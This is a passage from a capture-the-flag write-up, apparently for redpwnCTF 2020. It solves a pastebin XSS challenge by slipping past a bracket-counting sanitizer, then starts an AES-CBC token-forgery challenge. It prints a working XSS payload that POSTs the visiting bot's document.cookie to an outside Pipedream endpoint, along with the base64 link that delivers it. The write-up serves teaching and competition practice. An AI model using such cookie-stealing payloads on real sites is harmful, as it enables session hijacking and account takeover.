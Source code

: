 ```javascript
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

We can see that the base64 value from URL is decoded(using `atob`) and somewhat sanitized(by `clean`). Looking at the implementation of `clean()` we can see that as long as we keep the value of `brackets` 0 our input will go into the page.

Trying `><img src onerror="alert(1)">` displayed us an alert, so we're on the right track. As long as we don't insert any additional `<` or `>` we can write anything as payload.

I started a flow in [Pipedream](https://pipedream.com) that will intercept any request coming. I entered the link to my pipedream in the second site so check if the bot visits the link.

![image](https://user-images.githubusercontent.com/38787278/85329696-aeb29c80-b4db-11ea-8db6-259714c1b4c2.png)

I also got an event on the pipedream so all we need to do now is to steal the bot's cookie.

Final payload: `><img src onerror="let x=new XMLHttpRequest();x.open('POST','https://enaa0ihj1uout6j.m.pipedream.net', true);x.send(document.cookie)"/>`

This will generate the next link: `https://static-pastebin.2020.redpwnc.tf/paste#PjxpbWcgc3JjIG9uZXJyb3I9ImxldCB4PW5ldyBYTUxIdHRwUmVxdWVzdCgpO3gub3BlbignUE9TVCcsJ2h0dHBzOi8vZW5hYTBpaGoxdW91dDZqLm0ucGlwZWRyZWFtLm5ldCcsIHRydWUpO3guc2VuZChkb2N1bWVudC5jb29raWUpIi8+Cg==`

After pasting the link in the second site we get the flag.

![image](https://user-images.githubusercontent.com/38787278/85329981-339db600-b4dc-11ea-88f7-5411aefea9b3.png)

Trying to get the flag by a GET method will not work because of the characters of the flag. You have to encode first with something like `btoa`.

Flag: flag{54n1t1z4t10n_k1nd4_h4rd}

## <a name="panda-facts"></a> panda-facts
Points: 420
#### Description
>I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!
>
>Site: panda-facts.2020.redpwnc.tf

### Solution
The webpage exposes a form where you enter an username and afterwards you receive an encrypted token. The decrypted value is a json with the next fields:
```json
{"integrity":"${INTEGRITY}","member":0,"username":"your-username"}
```
We can get the flag if we are a member. Since only control the username, we have to forge the token. Let's take a look at the encryption and decryption function.
```javascript
async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);
```